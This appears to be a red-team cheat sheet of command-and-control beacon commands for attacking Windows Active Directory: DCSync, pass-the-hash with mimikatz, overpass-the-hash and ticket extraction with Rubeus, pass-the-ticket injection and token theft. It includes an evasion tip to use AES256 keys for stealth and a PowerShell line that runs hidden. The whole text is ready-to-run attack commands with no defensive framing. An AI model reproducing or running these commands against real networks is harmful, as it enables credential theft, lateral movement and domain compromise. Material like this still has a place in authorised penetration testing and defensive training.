 **Dcsync**

```
dcsync
```

**Pass the hash**

```
pth <DOMAIN>\<USER> <NTLM HASH>
```

```
mimikatz sekurlsa::pth /user:Administrator /domain:<DOMAIN> /ntlm:<NTLM> /run:"powershell -w hidden"
steal_token <PID>
```

**Overpass the hash**

* OPSEC: Use AES256 keys

```
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /rc4:<NTLM HASH> /nowrap
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES256 HASH> /nowrap /opsec

#Create new logon session
make_token <DOMAIN>\<USER> DummyPass
[System.IO.File]::WriteAllBytes("C:\Users\public\ticket.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
kerberos_ticket_use C:\Users\public\ticket.kirbi

ls \\<HOSTNAME>\c$
```

**Overpass the hash elevated context**

```
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES256 HASH> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

#output: [+] ProcessID       : <PID>

steal_token <PID>

ls \\<HOSTNAME>\c$
```

**Extract tickets**

* Extract tickets of a user, create new process, inject ticket into process, steal token from the process

```
execute-assembly Rubeus.exe triage
execute-assembly Rubeus.exe dump /service:krbtgt /luid:<LUID> /nowrap
execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly Rubeus.exe ptt /luid:<LUID> /ticket:[...base64-ticket...]
steal_token <PID>
```
